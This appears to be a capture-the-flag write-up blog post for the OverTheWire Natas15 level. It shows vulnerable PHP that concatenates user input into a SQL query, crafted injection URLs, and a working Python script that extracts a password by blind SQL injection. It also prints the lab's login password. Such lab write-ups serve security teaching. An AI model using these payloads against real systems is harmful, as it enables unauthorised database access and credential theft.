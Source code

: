 ```yaml
---
layout: post
title:  "Natas15: Bruteforcing Blind SQLi"
date:   2017-08-3 14:15:50 -0400
categories: master
---
```


The source code:

```
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This level checks if a particular username exists in the `username` database. If the variable `debug` is included, then it will print a debugging string, which will be helpful to us. The comment in the source code reveals that there is also a password database.

After some testing, both bob and natas16 exists in the database. Let's craft an SQL injection. The following url:
```
http://natas15.natas.labs.overthewire.org/index.php?debug=1&username=natas16" and "1"="1
```
returns:
```
Executing query: SELECT * from users where username="natas16" and "1"="1"
This user exists.
```

We have a valid SQL injection, and now we need to find a way to retrieve the password. The SQL `LIKE` operator serves as a rudimentary regex statement. We can use this to craft a simple brute-forcing program to retrieve the password. The `%` wildcard matches zero or more characters. 

As an example, the url:
```
natas15.natas.labs.overthewire.org/index.php?debug=1&username=natas16" and password like "%c%" and "1"="1
```
returns:
```
Executing query: SELECT * from users where username="natas16" and password like "%c%" and "1"="1"
This user exists.
```
Which means that 'c' exists somewhere in the password of natas16. We can use this to craft a program to brute-force the password one character at a time.The SQL command `like binary` will make our search case-sensitive.

The code below is a simple python brute-forcer that will help us crack the password.
```
import requests

password = ""
array = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

for i in range(0, 32): #password is 32 characters long
        for j in range(0, len(array)):
                password += array[j]
                sqli = 'natas16" and password like binary "' + password + '%" and "1"="1'
                req = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug=1",
                        auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data={'username':sqli})
                if "user exists" in req.text:
                        print("password: " + password)
                        break
                else:
                        password = password[:-1]
```
After some time, the script will return the following:
```
password: W
password: Wa
password: WaI
password: WaIH
password: WaIHE
password: WaIHEa
password: WaIHEac
password: WaIHEacj
password: WaIHEacj6
password: WaIHEacj63
password: WaIHEacj63w
password: WaIHEacj63wn
password: WaIHEacj63wnN
password: WaIHEacj63wnNI
```

And so on. Once it finishes brute-forcing all 32 characters, we'll have the password for the next level.



